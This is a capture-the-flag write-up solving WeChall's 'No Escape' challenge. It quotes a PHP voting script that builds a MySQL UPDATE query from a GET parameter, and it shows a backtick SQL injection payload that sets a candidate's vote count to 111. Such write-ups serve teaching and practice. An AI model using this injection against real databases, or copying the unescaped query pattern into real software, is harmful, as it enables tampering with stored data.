



# [No Escape (Exploit, PHP, MySQL)](http://www.wechall.net/challenge/no_escape/index.php)
## Problem
```
The small gizmore software company is expanding, and got contracted to create the new online votings for presidental election in 2012.
The current script is in alpha phase, and we`d like to know if it`s safe.
To prove me wrong you have to set the votecount for at least one of the candidates to 111. There is a reset at 100.
Again you are given the sourcecode, also as highlighted version.

Good Luck!
```
[SourceCode](http://www.wechall.net/challenge/no_escape/code.include) and [Highlighted Version](http://www.wechall.net/challenge/no_escape/index.php?highlight=christmas)



## Let's Vote First!
I like bill, (which is money I mean) so I voted for Bill!



When you press a button for candidate, you can see that information of which candidate we choose is passed by GET method. If you choose bill, GET parameter would look like `?vote_for=bill`, and this applies to all candidates (Name changes, obviously)


So if we make a candidate's votecount to 111, we can win the game. Sadly, when a candidate's votecount reaches 100, it resets itself to 0. (To win the election, you must have exactly 99 voters, wow) Let's look at the code which triggers this action.

## noesc_stop100 Function
```Javascript
/**
 * Reset when we hit 100. Or call challenge solved on 111. * @return void
 */
function noesc_stop100()
{
        $votes = noesc_getVotes();
        foreach ($votes as $who => $count)
        {
                if ($count == 111) {
                        noesc_solved();
                        noesc_resetVotes();
                        break;
                }
                
                if ($count >= 100) {
                        noesc_resetVotes();                      
                        break;
                }
        }
}
```
This is the function which resets when a candidate's votecount reaches 100. It also hold codes for solving the problem. To solve this problem, votecount should be exact 111, not 112. And if not, it sees whether votecount exceeds 100, and resets votecount if it does.
Let's find where this code is executed.

## noesc_voteup Function
```Javascript
/** * Count a vote.
 * Reset votes when we hit 100 or 111.
 * TODO: Implement multi language
 * @param string $who
 * @return void */
function noesc_voteup($who)
{
        if ( (stripos($who, 'id') !== false) || (strpos($who, '/') !== false) ) {
                echo GWF_HTML::error('No Escape', 'Please do not mess with the id. It would break the challenge for others', false);                return;
        }
 
 
        $db = noesc_db();
        $who = GDO::escape($who);
        $query = "UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1";
        if (false !== $db->queryWrite($query)) {
                echo GWF_HTML::message('No Escape', 'Vote counted for '.GWF_HTML::display($who), false);
        }        
        noesc_stop100();
}
```
Basically, code builds query with the string `$who`, and queries to database. And calls noesc_stop100 function, which resets votecount. The point of this code is that this code doesn't check anything from string `$who` which can cause some problem. We can simply edit query in the code with some injection.

## Database
```Javascript
/**
 * Create table (called by install-script) * The table layout is crappy, there is only 1 row in the table Oo.
 * @return boolean
 */
function noesc_createTable()
{        
        $db = noesc_db();
        $query =
                "CREATE TABLE IF NOT EXISTS noescvotes ( ".
                "id     INT(11) UNSIGNED PRIMARY KEY, ". # I could have one row per candidate, but currently there is only one global row(id:1). I know it`s a bit unrealistic, but at least it is safe, isn`t it?
                "bill   INT(11) UNSIGNED NOT NULL DEFAULT 0, ". # bill column                
                "barack INT(11) UNSIGNED NOT NULL DEFAULT 0, ". # barack column
                "george INT(11) UNSIGNED NOT NULL DEFAULT 0 )"; # george columb
        
        if (false === $db->queryWrite($query)) {
                return false;        }
        return noesc_resetVotes();
}
```
There's only one row (id=1), which holds candidates' votecount.
## Changing Query
Building query is this.
```
$query = "UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1";
```
We can inject anything in variable `$who`.
```
?vote_for=biil`=`bill`+111 WHERE id=1 -- -
"UPDATE noescvotes SET `bill`=`bill`+111 WHERE id=1 -- -$who`=`$who`+1 WHERE id=1"
```
This will increase bill's votecount straight to 111. Also, don't forget to change `+` to `%2B` for url encoding. If don't it will cause an error in SQL.

## So who's the winner?
When I tried with query with `WHERE id=1`, wechall rejected for following reason. Query doesn't matter even we remove WHERE clause since there are only one global row(wow).
So, if you remove WHERE clause, query will be successfully done and problem will be solved.


